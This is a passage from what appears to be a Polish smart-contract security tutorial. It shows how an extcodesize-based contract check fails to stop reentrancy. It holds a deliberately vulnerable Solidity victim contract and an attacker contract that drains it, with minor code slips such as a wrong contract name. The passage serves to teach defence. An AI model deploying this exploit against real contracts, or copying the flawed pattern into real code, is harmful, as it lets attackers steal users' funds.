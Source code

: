 Można rozważyć pokonanie wielobieżności po prostu uniemożliwiając jakimkolwiek inteligentnym kontraktom interakcję z Twoim kodem. Wyszukujesz stackoverflow, znajdujesz ten fragment kodu z mnóstwem głosów za:

```solidity
function isContract(address addr) internal returns (bool) {
  uint size;
  assembly { size := extcodesize(addr) }
  return size > 0;
}
```

Wydaje się to mieć sens: kontrakty mają kod, jeśli wywołujący ma jakiś kod, nie zezwalaj na wpłatę. Dodajmy to:

```solidity
// TEN KONTRAKT JEST CELOWO PODATNY, NIE KOPIOWAĆ
contract ContractCheckVictim {
    mapping (address => uint256) public balances;

    function isContract(address addr) internal returns (bool) {
        uint size;
        assembly { size := extcodesize(addr) }
        return size > 0;
    }

    function deposit() external payable {
        require(!isContract(msg.sender)); // <- NEW LINE
        balances[msg.sender] += msg.value;
    }

    function withdraw() external {
        uint256 amount = balances[msg.sender];
        (bool success, ) = msg.sender.call.value(amount)("");
        require(success);
        balances[msg.sender] = 0;
    }
}
```

Teraz, aby zdeponować ETH, nie wolno Ci mieć kodu inteligentnego kontraktu pod swoim adresem. Można to jednak łatwo pokonać za pomocą następującego kontraktu atakującego:

```solidity
contract ContractCheckAttacker {
    constructor() public payable {
        ContractCheckVictim(VICTIM_ADDRESS).deposit(1 ether); // <- New line
    }

    function beginAttack() external payable {
        ContractCheckVictim(VICTIM_ADDRESS).withdraw();
    }

    function() external payable {
        if (gasleft() > 40000) {
            Victim(VICTIM_ADDRESS).withdraw();
        }
   }
}
```
